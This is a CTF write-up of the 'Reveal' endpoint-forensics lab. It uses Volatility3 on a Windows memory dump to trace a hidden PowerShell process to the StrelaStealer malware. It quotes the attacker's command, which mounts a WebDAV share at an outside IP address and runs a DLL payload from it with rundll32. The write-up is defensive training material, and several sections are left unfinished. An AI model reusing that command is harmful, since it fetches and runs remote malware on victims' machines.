






# Lab Overview
---
**Lab:** [Reveal Lab](https://cyberdefenders.org/blueteam-ctf-challenges/reveal/)  
**Platform:** CyberDefenders  
**Category:** Endpoint Forensics  
**Difficulty:** Easy  
**Tools:** Volatility3, MITRE ATT&CK  

# Summary
---
Write a summary of the CTF challenge.

# Scenario
---
You are a forensic investigator at a financial institution, and your SIEM flagged unusual activity on a workstation with access to sensitive financial data. Suspecting a breach, you received a memory dump from the compromised machine. Your task is to analyze the memory for signs of compromise, trace the anomaly's origin, and assess its scope to contain the incident effectively.

# Analysis
---
## Identifying the name of the malicious process helps in understanding the nature of the attack. What is the name of the malicious process?

To begin this investigation, I first identified the operating system of the memory dump to ensure I use the correct Volatility3 plugins. Running the command below confirmed the details that this memory image was captured from a Windows system.  
```bash
file 192-Reveal.dmp
```

To identify the malicious process, I used the `pstree` plugin from Volatility3 to list the tree structure of the captured processes in the memory image.  
```bash
vol -f 192-Reveal.dmp windows.pstree > pstree.txt
```

Running the command below will extract columns 1-4 and the last column from the `pstree` output to produce a more concise and readable view.  
```bash
awk '{print $1, $2, $3, $4, $NF}' pstree.txt
```
  
From my analysis of the list of processes, I suspect the process PID 3692 running as `powershell.exe` to be the malicious process. Typically, PowerShell should not be running as a process on a Windows machine unless there is work being done on the machine by say an IT team. However, based on what we know, there was no indications that an IT team is performing any PowerShell work on the machine.  

To further investigate why powershell.exe was running, I used the `cmdline` plugin to list the command-line arguments associated with each process. This will allow me to determine how PowerShell was executed and whether it was used for malicious activity.  
```bash
vol -f 192-Reveal.dmp windows.cmdline > cmdline.txt
```

Based on the output of the `cmdline` plugin, there is clear indication of suspicious activity with the `powershell.exe` process.  
  
The evidence show that powershell.exe uses the option `-windowstyle hidden` to hide itself from the machine's screen then utilized the `net use \\45.9.74.32@8888\davwwwroot\` command to connect to an external network resources. After it connects to the external network resource, it ran the command `rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll` which uses the rundll32 tool to execute a DLL payload from the connected network resource.  

Based on these findings, the malicious process is identified as `powershell.exe`.  
 
## Knowing the parent process ID (PPID) of the malicious process aids in tracing the process hierarchy and understanding the attack flow. What is the parent PID of the malicious process?

From the output of `pstree`, the process `powershell.exe` has a PPID of 4120.  
  

## Determining the file name used by the malware for executing the second-stage payload is crucial for identifying subsequent malicious activities. What is the file name that the malware uses to execute the second-stage payload?

From the output of the `cmdline` plugin, I identified that the `powershell.exe` process attempted to use the rundll32 tool to execute the payload `3435.dll` located in the`\\45.9.74.32@8888\davwwwroot\` network resource.  
  

## Identifying the shared directory on the remote server helps trace the resources targeted by the attacker. What is the name of the shared directory being accessed on the remote server?

From the output of the `cmdline` plugin, the `powershell.exe` process used the net use command to connect to the `\\45.9.74.32@8888\davwwwroot\` network directory.  
  

## What is the MITRE ATT&CK sub-technique ID that describes the execution of a second-stage payload using a Windows utility to run the malicious file?

  


## Identifying the username under which the malicious process runs helps in assessing the compromised account and its potential impact. What is the username that the malicious process runs under?

```bash
vol -f 192-Reveal.dmp windows.getsids --pid 3692
```
  

## Knowing the name of the malware family is essential for correlating the attack with known threats and developing appropriate defenses. What is the name of the malware family?

StrelaStealer
  

  

